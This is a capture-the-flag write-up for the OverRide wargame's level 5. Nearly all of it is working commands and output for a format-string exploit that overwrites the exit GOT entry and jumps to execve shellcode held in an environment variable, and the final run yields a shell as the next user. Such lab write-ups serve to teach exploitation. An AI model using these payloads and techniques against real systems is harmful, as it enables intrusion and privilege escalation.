 # Level 5

Ah `printf`, don't we love it?

```shell
level05@OverRide:~$ ./level05 
%p
0x64
```
We have another 32bit program with vulnerable format strings on our hands.

Let's find where we control the buffer
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "BBBB" + "%p|"*10') 
bbbb0x64|0xf7fcfac0|0xf7ec3add|0xffffd6ef|0xffffd6ee|(nil)|0xffffffff|0xffffd774|0xf7fdb000|0x62626262|
```
Oh yeah, our uppercase characters get converted to lowercase, but we can see it's the 10th arg
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "0000%10$p"')
00000x30303030
```

Ok Let's find the value of `exit` to replace it in the GOT
```shell
level05@OverRide:~$ gdb ./level05                                    
(gdb) disas exit                  
Dump of assembler code for function exit@plt:                        
   0x08048370 <+0>:     jmp    *0x80497e0                            
   0x08048376 <+6>:     push   $0x18                                 
   0x0804837b <+11>:    jmp    0x8048330                             
End of assembler dump.            
```
`0x80497e0` is `exit` in the GOT

But this time we don't just have a function to call, what are we gonna do!
```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Of course! Let's now get the address of our shellcode with some safety margin for good measure.
```shell
level05@OverRide:~$ gdb ./level05 
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xffffdd10 "\220\220\220\220\220\220\220\220\220\220\220\220...
```
Let's add a good `0x64` just to be safe -> `0xFFFFDD74`
GOT exit -> `0x80497e0`
```shell
level05@OverRide:~$ ./level05   < <(python -c 'print "\xe0\x97\x04\x08" + "%{}$p".format(str(0xffffdd74)) + "%10$n"')
```
It doesn't work this time, the reason is that we just can't use such a big number of characters for padding. We'll have to split our writes between the higher and lower bytes, and use the modifier `h` to only write 2 bytes, like this:
```shell
level05@OverRide:~$ ./level05 < <(echo "AAAABBBB%10\$p%11\$p")
aaaabbbbb0x616161610x62626262
```

Which translates to:
`(GOT ADDR LO BYTES ADDR | GOT ADDR HI BYTES ADDR ) ` +
`(( % PADDING | LO BYTES OF PWN ADDR - 8 | THROWAWAY CONV) | ( % SRC | 10TH VALUE IN STACK | $hn WRITE 2 BYTES))` +
`(( % PADDING | HI BYTES OF PWN ADDR - LO BYTES | THROWAWAY CONV) | (% SRC | 11TH VAL IN STACK | $hn WRITE 2 BYTES))`

Which should give us before conversions
`(0x80497E0 + 0x80497E2) + ( %(0xDD74-8)$x + %10$hn ) + ( %(0xFFFF-DD74)$x  + %11$hn)`

in python:
```python
"\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"
```

Let's try it
```shell
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"' ; cat ) | ./level05 

[...]
whoami
level06
```

What a handful!
